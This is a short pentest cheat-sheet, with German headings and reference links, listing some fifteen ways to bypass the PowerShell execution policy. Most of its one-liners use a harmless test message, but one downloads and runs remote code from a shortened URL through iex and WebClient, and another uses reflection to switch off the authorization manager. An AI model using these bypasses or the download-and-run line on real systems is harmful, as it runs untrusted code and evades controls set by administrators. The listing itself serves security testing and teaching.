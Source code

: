 # Powershell ExecutionPolicy Bypass

```powershell
Echo Write-Host "My voice is my passport, verify me."  | PowerShell.exe -noprofile -
Get-Content .runme.ps1 | PowerShell.exe -noprofile - 
TYPE .runme.ps1 | PowerShell.exe -noprofile -
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
Powershell -c "Write-Host 'My voice is my passport, verify me.'"

$command = "Write-Host 'My voice is my passport, verify me.'" 
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand

invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
Get-Content .runme.ps1 | Invoke-Expression
GC .runme.ps1 | iex
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1
PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1 # siehe http://www.darkoperator.com/blog/2013/3/5/powershell-basics-execution-policy-part-1.html

function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
Disable-ExecutionPolicy
./runme.ps1

Set-ExecutionPolicy Bypass -Scope Process
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# edit HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell
```
## Referenzen
[Vollständiger Blogpost](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
http://blogs.msdn.com/b/powershell/archive/2008/09/30/powershell-s-security-guiding-principles.aspx
http://obscuresecurity.blogspot.com/2011/08/powershell-executionpolicy.html
http://roo7break.co.uk/?page_id=611
http://technet.microsoft.com/en-us/library/hh849694.aspx
http://technet.microsoft.com/en-us/library/hh849812.aspx
http://technet.microsoft.com/en-us/library/hh849893.aspx
http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html
http://www.hanselman.com/blog/SigningPowerShellScripts.aspx
http://www.darkoperator.com/blog/2013/3/5/powershell-basics-execution-policy-part-1.html
http://www.nivot.org/blog/post/2012/02/10/Bypassing-Restricted-Execution-Policy-in-Code-or-in-Scriptfrom
http://www.powershellmagazine.com/2014/07/08/powersploit/

tags: powershell snippets pentest windows